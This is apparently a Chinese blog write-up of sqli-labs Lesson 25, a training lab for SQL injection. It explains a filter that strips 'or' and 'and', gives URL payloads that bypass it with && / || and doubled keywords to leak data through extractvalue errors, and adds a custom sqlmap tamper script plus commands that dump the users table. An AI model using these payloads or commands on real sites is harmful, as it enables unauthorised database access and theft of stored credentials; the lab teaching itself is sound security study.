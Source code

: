 ```yaml
---
title: sqli-labs lession 25 基于错误的GET单引号-你的OR及AND归我所有
date: 2018-10-03 23:09:30
tags: [sqli-labs]
categories: sql注入
---
```


# sqli-labs lession 25 基于错误的GET单引号-你的OR及AND归我所有

---

## 登录界面

![001](/img/sql/Lesson-25/001.png)

## 分析

从以下源码可以看出对or和and无论大小写都进行用空屁替代。

```
function blacklist($id)
{
	$id= preg_replace('/or/i',"", $id);			//strip out OR (non case sensitive)
	$id= preg_replace('/AND/i',"", $id);		//Strip out AND (non case sensitive)
	
	return $id;
}
```

这里就是考的就是绕过姿势了。

1.数学符号

and = && or = ||

`&`对应url编码`%26`,`|`对应url编码`%7c`。

`http://192.168.75.131/sql/Less-25/?id=1' %26%26 extractvalue(null,concat(0x7e,database(),0x7e))%23`

![002](/img/sql/Lesson-25/002.png)

`http://192.168.75.131/sql/Less-25/?id=1' %7c%7c extractvalue(null,concat(0x7e,database(),0x7e))%23`

![003](/img/sql/Lesson-25/003.png)

2.双写绕过

类似与`aandnd`和`oorr`

`http://192.168.75.131/sql/Less-25/?id=1' aandnd extractvalue(null,concat(0x7e,database(),0x7e))%23`

![004](/img/sql/Lesson-25/004.png)

`http://192.168.75.131/sql/Less-25/?id=1' oorr extractvalue(null,concat(0x7e,database(),0x7e))%23`

![005](/img/sql/Lesson-25/005.png)

## SQLMAP

最开始考虑使用的是symboliclogical.py脚本,这个脚本能用 && 替换 and ，用 || 替换 or，但是实际使用的时候遇到了麻烦,因为后续的Payload用到了information来设置payload,而information的会被过滤成infmation,这样SQLMAP就没法获得数据了。

`python sqlmap.py -u "http://192.168.75.131/sql/Less-25/?id=1" --tamper "symboliclogical.py" --technique E --dbms mysql --flush-session --fresh-queries --dbs -v 3`

![006](/img/sql/Lesson-25/006.png)

从上图的WARNING发现没有获取到数据,把payload复制下来跑下看看。

可以发现把information的or过滤了。

![007](/img/sql/Lesson-25/007.png)

修改脚本如下,另存一个脚本为`andor.py`

`retVal = re.sub(r"(?i)(and)", r"anandd", re.sub(r"(?i)(or)", "oorr", payload))`

这个用的是双写绕过and和or,而且information会被替换为infoormation

![008](/img/sql/Lesson-25/008.png)

```
#!/usr/bin/env python

"""
Copyright (c) 2006-2018 sqlmap developers (http://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""

import re

from lib.core.enums import PRIORITY

__priority__ = PRIORITY.NORMAL

def tamper(payload, **kwargs):
    """
    Add an inline comment (/**/) to the end of all occurrences of (MySQL) "information_schema" identifier

    >>> tamper('and or')
    'anandd oorr'
    """

    retVal = payload

    if payload:
        retVal = re.sub(r"(?i)(and)", r"anandd", re.sub(r"(?i)(or)", "oorr", payload))

    return retVal
```

`python sqlmap.py -u "http://192.168.75.131/sql/Less-25/?id=1" --tamper "andor.py" --technique E --dbms mysql --flush-session --fresh-queries --threads 10 --dbs`

![009](/img/sql/Lesson-25/009.png)

接下来都一样了。

`python sqlmap.py -u "http://192.168.75.131/sql/Less-25/?id=1" --tamper "andor.py" --technique E --dbms mysql  --threads 10 -D security -T users --columns --dump`

![010](/img/sql/Lesson-25/010.png)


